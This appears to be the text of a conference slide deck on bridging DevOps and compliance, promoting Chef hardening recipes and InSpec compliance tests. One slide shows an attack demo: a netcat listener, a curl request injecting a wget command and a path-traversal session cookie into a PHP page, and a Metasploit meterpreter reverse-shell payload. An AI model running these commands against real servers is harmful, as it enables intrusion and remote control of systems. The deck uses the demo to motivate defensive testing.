


Compliance & DevOps
Bridging the gap
DevOps meets compliance
anno 2011
$> whoami
Dominik Richter
Product Manager at Chef
Source: Intel Free Source on flick
Security vulnerabilities gave rise to IT compliance
- 1988 Morris Worm, National Bank Chicago 70$mio theft
- 1994 Citibank 10$mio hack, AOHell
- 1996 Brotherhood hacks Canadian Broadcast Corp.
- 1998 Free Mitnick Logic Bomb; Security incidents at 75% of organizations
State of security in YYYY
- In 60% of cases, attackers can compromise organizations within minutes.
- 99.9% of the exploited vulnerabilities were compromised more than a year after the vulnerability was published.
- Ten vulnerabilities account for 97% of the exploits observed.
State of security in 2014
- In 60% of cases, attackers can compromise organizations within minutes.
- 99.9% of the exploited vulnerabilities were compromised more than a year after the vulnerability was published.
- Ten vulnerabilities account for 97% of the exploits observed.
Cycle of regulation
Compliance and security
Offer baseline security and isolation layers
# let's try some wget
nc -l 8888
curl 'http://192.168.1.2/expenses.php?ccc=wget%20http%3A%2F%2F192.168.1.10%3A8888' --cookie 'PHPSESSID=31468g1scu79qbp0lcjp85aj82; path=/; user=../../../../../../../../var/lib/php/session/sess_31468g1scu79qbp0lcjp85aj82%00'
msfpayload linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=5555 X > met
# copy met to /var/www and start apache
...
Regulatory compliance
| PCI-DSS | Gramm-Leach-Bliley Act | HIPAA |
| Dodd-Frank | ISO | Sarbanes-Oxley |
| HITECH | Grundschutz | European Central Bank Regulations |
- Processes
- Data storage / processing
- Configuration
- Vulnerability handling
bridging the gap
Creating a new component

The promise of the coded business

Security meets operations


Documentation
SSH supports two different protocol versions. The original version, SSHv1, was subject to a number of security issues. Please use SSHv2 instead to avoid these.
Codify system hardening
{
"name": "hardening",
"description": "Secure our server",
"json_class": "Chef::Role",
"chef_type": "role",
"run_list": [
"recipe[os-hardening]",
"recipe[ssh-hardening]"
...
Codify system hardening
template '/etc/ssh/sshd_config' do
source 'opensshd.conf.erb'
mode '0600'
owner 'root'
group 'root'
variables(
mac: SshMac.get_macs(node),
kex: SshKex.get_kexs(node),
cipher: SshCipher.get_ciphers(node),
...
Almost there
Test for assurance across your infrastructure and apps
Why infrastructure testing?
Code breaks
normal accident theory


Why infrastructure testing?
1. Reduce the number of defects
2. Security and Compliance testing
Scripting tools
> grep "^Protocol" /etc/ssh/sshd_config | sed 's/Protocol //'
2
Testing a requirement
describe sshd_config do
its('Protocol') { should cmp 2 }
end
InSpec
Compliance language
control 'ssh-1234' do
impact 1.0
title 'Server: Set protocol version to SSHv2'
desc "
Set the SSH protocol version to 2. Don't use legacy
insecure SSHv1 connections anymore...
"
describe sshd_config do
its('Protocol') { should eq('2') }
end
end
 Common language
Common language
- Compliance requirements as code
- Infrastructure automation as code
- Application automation as code
Silo-breaking
- Build foundation for communication
- Share knowledge and code
- Codify agreements after audits
Profile foundation

Make adjustments

Spread to other environments

Continuous compliance
Create new artifacts

To reach production

Continuous workflow

Create and test early on
Test continuously
Deploy, Operate, Verify
Continuous workflow
Safety at Velocity
- Risk reduction when constantly changing your systems
- As part of the workflow. Not after, not later.
- Test for quality, Test for compliance
Fixing The Compliance Cycle